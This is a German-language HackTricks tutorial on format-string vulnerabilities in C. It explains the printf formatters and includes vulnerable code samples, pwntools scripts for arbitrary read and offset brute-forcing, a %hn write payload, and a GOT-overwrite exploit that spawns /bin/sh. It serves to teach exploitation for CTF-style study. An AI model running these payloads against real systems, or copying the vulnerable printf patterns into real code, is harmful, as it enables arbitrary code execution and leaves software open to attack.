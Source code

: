 # Format Strings

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Grundinformationen

In C **`printf`** ist eine Funktion, die verwendet werden kann, um **einen String auszugeben**. Der **erste Parameter**, den diese Funktion erwartet, ist der **rohe Text mit den Formatierern**. Die **folgenden Parameter**, die erwartet werden, sind die **Werte**, um die **Formatierer** aus dem rohen Text zu **ersetzen**.

Andere anfällige Funktionen sind **`sprintf()`** und **`fprintf()`**.

Die Verwundbarkeit tritt auf, wenn ein **Angreifertext als erstes Argument** an diese Funktion übergeben wird. Der Angreifer kann eine **spezielle Eingabe erstellen, die** die **printf-Format**-String-Funktionen ausnutzt, um **beliebige Daten an beliebiger Adresse (lesbar/schreibbar)** zu lesen und **zu schreiben**. Dadurch ist es möglich, **beliebigen Code auszuführen**.

#### Formatierer:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Beispiele:**

* Verwundbares Beispiel:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Verwendung:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Mit fehlenden Argumenten:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf anfällig:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Zugriff auf Zeiger**

Das Format **`%<n>$x`**, wobei `n` eine Zahl ist, ermöglicht es, printf anzuzeigen, dass der n-te Parameter (vom Stack) ausgewählt werden soll. Wenn Sie also den 4. Parameter vom Stack mit printf lesen möchten, könnten Sie Folgendes tun:
```c
printf("%x %x %x %x")
```
und du würdest vom ersten bis zum vierten Parameter lesen.

Oder du könntest Folgendes tun:
```c
printf("%4$x")
```
und direkt das vierte lesen.

Beachten Sie, dass der Angreifer den `printf` **Parameter kontrolliert, was im Grunde bedeutet, dass** seine Eingabe im Stack sein wird, wenn `printf` aufgerufen wird, was bedeutet, dass er spezifische Speicheradressen im Stack schreiben könnte.

{% hint style="danger" %}
Ein Angreifer, der diese Eingabe kontrolliert, wird in der Lage sein, **willkürliche Adressen im Stack hinzuzufügen und `printf` dazu zu bringen, auf sie zuzugreifen**. Im nächsten Abschnitt wird erklärt, wie man dieses Verhalten nutzt.
{% endhint %}

## **Willkürliches Lesen**

Es ist möglich, den Formatter **`%n$s`** zu verwenden, um **`printf`** die **Adresse** an der **n Position** zu entnehmen, die ihm folgt, und **sie so zu drucken, als wäre es eine Zeichenkette** (drucken, bis ein 0x00 gefunden wird). Wenn die Basisadresse des Binaries **`0x8048000`** ist und wir wissen, dass die Benutzereingabe an der 4. Position im Stack beginnt, ist es möglich, den Anfang des Binaries mit:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Beachten Sie, dass Sie die Adresse 0x8048000 nicht am Anfang der Eingabe setzen können, da der String bei 0x00 am Ende dieser Adresse abgeschnitten wird.
{% endhint %}

### Offset finden

Um den Offset zu Ihrer Eingabe zu finden, könnten Sie 4 oder 8 Bytes (`0x41414141`) senden, gefolgt von **`%1$x`** und den Wert **erhöhen**, bis Sie die `A's` erhalten.

<details>

<summary>Brute Force printf-Offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Wie nützlich

Arbitrary Reads können nützlich sein, um:

* **Den** **Binary** aus dem Speicher **auszugeben**
* **Auf spezifische Teile des Speichers zuzugreifen, wo sensible** **Infos** gespeichert sind (wie Canaries, Verschlüsselungsschlüssel oder benutzerdefinierte Passwörter wie in dieser [**CTF-Herausforderung**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitrary Write**

Der Formatter **`%<num>$n`** **schreibt** die **Anzahl der geschriebenen Bytes** in die **angegebene Adresse** im \<num> Parameter im Stack. Wenn ein Angreifer so viele Zeichen schreiben kann, wie er möchte, wird er in der Lage sein, **`%<num>$n`** eine beliebige Zahl an einer beliebigen Adresse schreiben zu lassen.

Glücklicherweise ist es nicht nötig, 9999 "A"s zur Eingabe hinzuzufügen, um die Zahl 9999 zu schreiben. Um dies zu tun, ist es möglich, den Formatter **`%.<num-write>%<num>$n`** zu verwenden, um die Zahl **`<num-write>`** in die **Adresse zu schreiben, die durch die `num` Position** angezeigt wird.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Allerdings ist zu beachten, dass normalerweise, um eine Adresse wie `0x08049724` (die eine RIESIGE Zahl ist, die man auf einmal schreiben muss) zu schreiben, **`$hn`** anstelle von **`$n`** verwendet wird. Dies ermöglicht es, **nur 2 Bytes** zu schreiben. Daher wird dieser Vorgang zweimal durchgeführt, einmal für die höchsten 2B der Adresse und ein weiteres Mal für die niedrigeren.

Daher ermöglicht diese Schwachstelle, **alles an jede Adresse zu schreiben (willkürliches Schreiben).**

In diesem Beispiel wird das Ziel sein, die **Adresse** einer **Funktion** in der **GOT**-Tabelle zu **überschreiben**, die später aufgerufen wird. Obwohl dies andere Techniken des willkürlichen Schreibens zu exec missbrauchen könnte:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Wir werden eine **Funktion** **überschreiben**, die ihre **Argumente** vom **Benutzer** **erhält** und sie auf die **`system`** **Funktion** **zeigt**.\
Wie bereits erwähnt, sind normalerweise 2 Schritte erforderlich, um die Adresse zu schreiben: Zuerst **schreibt man 2 Bytes** der Adresse und dann die anderen 2. Dazu wird **`$hn`** verwendet.

* **HOB** wird auf die 2 höheren Bytes der Adresse aufgerufen
* **LOB** wird auf die 2 niedrigeren Bytes der Adresse aufgerufen

Dann, aufgrund der Funktionsweise von Format-Strings, müssen Sie **zuerst das kleinste** von \[HOB, LOB] schreiben und dann das andere.

Wenn HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Wenn HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-Vorlage

Sie finden eine **Vorlage**, um einen Exploit für diese Art von Schwachstelle vorzubereiten in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Oder dieses grundlegende Beispiel von [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings zu BOF

Es ist möglich, die Schreibaktionen einer Format-String-Sicherheitsanfälligkeit auszunutzen, um **in Adressen des Stacks zu schreiben** und eine **Buffer Overflow**-Art von Sicherheitsanfälligkeit auszunutzen.

## Weitere Beispiele & Referenzen

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 Bit, kein relro, kein canary, nx, kein pie, grundlegende Verwendung von Format-Strings, um das Flag vom Stack zu leaken (keine Notwendigkeit, den Ausführungsfluss zu ändern)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 Bit, relro, kein canary, nx, kein pie, Format-String, um die Adresse `fflush` mit der Win-Funktion (ret2win) zu überschreiben
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 Bit, relro, kein canary, nx, kein pie, Format-String, um eine Adresse innerhalb von main in `.fini_array` zu schreiben (damit der Fluss ein weiteres Mal zurückläuft) und die Adresse zu `system` in der GOT-Tabelle zu schreiben, die auf `strlen` zeigt. Wenn der Fluss zurück zu main geht, wird `strlen` mit Benutzereingaben ausgeführt und zeigt auf `system`, es werden die übergebenen Befehle ausgeführt.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Unterstützen Sie HackTricks

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.
{% endhint %}
